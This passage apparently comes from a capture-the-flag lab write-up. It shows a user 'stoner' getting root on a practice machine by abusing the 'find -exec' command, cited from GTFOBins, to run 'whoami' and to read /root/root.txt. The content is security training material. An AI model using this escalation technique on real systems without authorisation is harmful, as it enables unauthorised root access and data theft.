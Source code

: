 ### #3 What did you exploit to get the privileged user?

[find | GTFOBins](https://gtfobins.github.io/gtfobins/find/)

```bash
stoner@Vulnerable:~$ find . -exec whoami \; -quit
root
stoner@Vulnerable:~$
```

### #4 root.txt

```bash
stoner@Vulnerable:~$ find . -exec cat /root/root.txt \; -quit
It wasn't that hard, was it?
stoner@Vulnerable:~$
```


